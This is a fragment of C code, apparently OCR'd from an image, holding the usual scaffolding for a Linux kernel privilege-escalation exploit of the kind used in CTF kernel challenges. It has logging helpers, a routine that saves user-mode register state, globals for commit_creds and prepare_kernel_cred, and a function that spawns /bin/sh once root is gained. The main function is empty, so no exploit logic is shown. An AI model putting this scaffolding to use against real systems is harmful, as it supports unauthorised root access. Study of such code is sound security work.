 ```c
}

void success(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[32m\033[1m[+] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

void error(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[31m\033[1m[x] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

size_t commit_creds = 0, prepare_kernel_cred = 0;

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    info("Status has been saved.");
}

void get_root_shell(void)
{
    if(getuid()) {
        error("Failed to get the root!");
        exit(-1);
    }

    success("Successful to get the root. Execve root shell now...");
    system("/bin/sh");
}

int main(){

}
```
